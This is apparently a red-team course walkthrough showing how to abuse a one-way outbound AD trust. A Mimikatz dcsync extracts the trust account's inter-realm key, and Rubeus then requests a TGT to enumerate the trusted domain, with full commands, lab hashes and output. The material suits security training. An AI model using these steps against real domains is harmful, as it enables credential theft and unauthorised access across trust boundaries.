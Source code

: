 # One-Way Outbound Trusts

An adversary may also find themselves on the 'wrong' side of a one-way trust, i.e. the trusting side.  In this scenario, they are against the direction of access and can not access resources in the trusted domain by design.  Remember that these forest trusts are official security boundaries.

Querying the TDO shows that we're on the outbound side of a one-way trust with _contoso.com_.

```batch
beacon> getuid
[*] You are PARTNER\vwebber

beacon> ldapsearch (objectClass=trustedDomain)

name: contoso.com
trustDirection: 2
trustAttributes: 8
flatName: CONTOSO
```

Attempting to enumerate the foreign domain will typically fail with error code 49, which means 'invalid credentials'. This makes everything, including basic enumeration, practically impossible.

```batch
beacon> ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com

Binding to contoso.com
[-] Bind Failed: 49
```

Under the hood, a TGS-REQ for _krbtgt/CONTOSO.COM_ is hitting the _partner.com_ KDC which returns a `KDC_ERR_S_PRINCIPAL_UNKNOWN` error.  This means the target server was not found in the KDC's database - there is (perhaps obviously) no attempt at a referral as there would be when in the trusted domain.

Interestingly, if you have credential material for a principal in the trusted domain, you can actually impersonate them and access resources in the trusted domain across the network.

```batch
beacon> make_token CONTOSO\Administrator Passw0rd!
[+] Impersonated CONTOSO\Administrator (netonly)

beacon> ls \\lon-dc-1.contoso.com\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 09:20:24   PerfLogs
          dir     03/18/2025 13:18:21   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     03/18/2025 13:18:02   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     03/18/2025 05:28:14   DumpStack.log.tmp
 1gb      fil     03/18/2025 05:28:14   pagefile.sys
```

In this case, the calling client will perform the ticket exchanges directly with the trusted domain's KDC.  You may be wondering what good that is because how can you get credentials for a user in the trusted domain?  Well, there is one - the trust account.  Remember that the trusted domain gets a trust account created using the flat name of the trusting domain; its password is the shared inter-realm key; and the trusting domain has a copy of that key stored in the TDO.

To obtain that key, begin by grabbing the TDO's `objectGUID` attribute.

```batch
beacon> ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID

--------------------
name: contoso.com
objectGUID: 288d9ee6-2b3c-42aa-bef8-959ab4e484ed
```

And then `dcsync` it using Mimikatz's `/guid` parameter.

```batch
beacon> mimikatz lsadump::dcsync /domain:partner.com /guid:{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}

[DC] 'partner.com' will be the domain
[DC] 'par-dc-1.partner.com' will be the DC server
[DC] Object with GUID '{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : contoso.com

** TRUSTED DOMAIN - Antisocial **

Partner              : contoso.com
 [ Out ] CONTOSO.COM -> PARTNER.COM
    * 14/03/2025 10:27:30 - CLEAR   - cb 87 71 2c 62 c1 2e 70 ae d8 29 5e 6a ae 8c a9 96 39 51 39 10 3a ef 7c 42 6d 2d 97 
	* aes256_hmac       cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
	* aes128_hmac       4929a44176077b570d1b6f1eae4f9fbb
	* rc4_hmac_nt       6150491cceb080dffeaaec5e60d8f58d

 [Out-1] CONTOSO.COM -> PARTNER.COM
    * 14/03/2025 10:27:30 - CLEAR   - cb 87 71 2c 62 c1 2e 70 ae d8 29 5e 6a ae 8c a9 96 39 51 39 10 3a ef 7c 42 6d 2d 97 
	* aes256_hmac       cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
	* aes128_hmac       4929a44176077b570d1b6f1eae4f9fbb
	* rc4_hmac_nt       6150491cceb080dffeaaec5e60d8f58d
```

`[Out]` and `[Out-1]` are the 'current' and 'previous' keys respectively.  They're the same in this example because 30 days hasn't elapsed since the creation of the trust.  Using the RC4 key, simply ask for a TGT from the trusted domain.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /rc4:6150491cceb080dffeaaec5e60d8f58d /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 6150491cceb080dffeaaec5e60d8f58d
[*] Building AS-REQ (w/ preauth) for: 'CONTOSO.COM\PARTNER$'
[*] Using domain controller: 10.10.120.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFZ[...snip...]kNPTQ==

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  PARTNER$ (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  18/03/2025 13:58:52
  EndTime                  :  18/03/2025 23:58:52
  RenewTill                :  25/03/2025 13:58:52
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  dwwauTnm1s6wRz0YxKmFTQ==
  ASREP (key)              :  6150491CCEB080DFFEAAEC5E60D8F58D
```

Once this ticket has been injected into a logon session, you'll be able to enumerate the trusted domain.

```batch
beacon> run klist

Current LogonId is 0:0x23da426

Cached Tickets: (2)

#0>	Client: PARTNER$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
	Start Time: 3/18/2025 13:58:52 (local)
	End Time:   3/18/2025 23:58:52 (local)
	Renew Time: 3/25/2025 13:58:52 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com

Binding to contoso.com

[*] Distinguished name: DC=contoso,DC=com
[*] Filter: (objectClass=domain)
[*] Scope of search value: 3
[*] Returning specific attribute(s): name,objectSid

--------------------
name: contoso
objectSid: S-1-5-21-3926355307-1661546229-813047887
retreived 1 results total
```

This works because the primaryGroupID of the trust account is 513. This gives it the same privileges as Domain Users without it being an explicit member of the group, which is all due to legacy Portable Operating System Interface (POSIX) support. The upshot is that we can now enumerate the trusted domain to find vulnerabilities such as roastable users, ADCS instances, etc.
